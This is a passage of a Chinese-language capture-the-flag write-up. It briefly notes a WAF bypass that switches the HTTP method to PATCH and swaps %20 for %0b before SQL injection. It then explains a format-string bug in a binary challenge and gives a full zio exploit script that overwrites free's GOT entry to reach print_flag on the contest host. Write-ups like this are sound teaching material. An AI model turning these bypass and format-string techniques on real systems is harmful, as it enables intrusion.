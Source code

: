发现 10 开头的 IP 可以访问。通过更改 HTTP 请求方法为 PATCH 可以让防护等级为中。  
更改关键字，如`%20`改为`%0b`等绕过检测，注入得到 flag。

![enter image description here](http://drops.javaweb.org/uploads/images/c05ab9739901328761ff1f28ec7e255e6903dd13.jpg)

0x07 谁偷了你的站内短信
==============

* * *

谁偷了你的站内短信 一题 binary 题

直接无脑 F5 ，可以看到 sendMail 直接 printf 了输入，所以就有一个 Format String 漏洞。

当然，要任意地址写得有个数据在栈上，然后发现用户名在栈上，再追一下栈上的数据，可以看到 76 的位置放着用户名，所以我可以任意地址写了。

然后本来还想怎么泄漏 libc 的地址什么的，结果再看看代码，那里躺着一个 print_flag 。。。这下就简单了，发现在 sendMail 后返回后跟着三个 free ，我直接改 free 的 got 表，让他跳到 print_flag 就行了，直接上代码。

```
#coding:utf-8
from zio import *

print_flag = 0x08048BBD
free_addr = 0x0804C014

exp = """%134515645x%76$hn"""

io = zio(('exploit.alictf.com',5608))
''' # 第一次注册要用这个
io.read_until('Quit')
io.writeline('1')
io.read_until('Name:')
io.writeline(l32(free_addr))
io.read_until('ass:')
io.writeline('1234')
'''

io.read_until('Quit')
io.writeline('2')
io.read_until('Name:')
io.writeline(l32(free_addr))
io.read_until('ass:')
io.writeline('1234')
io.read_until('Quit')
io.writeline('3')
io.read_until('To:')

io.writeline(exp)
''' # 这下面的去掉不然会超时，最后自己随便写就好了
io.read_until('Title:')
io.writeline('123')
io.read_until('Body:')
io.writeline('123')
io.read_until('Quit')
io.writeline('3')
'''
io.interact()

```
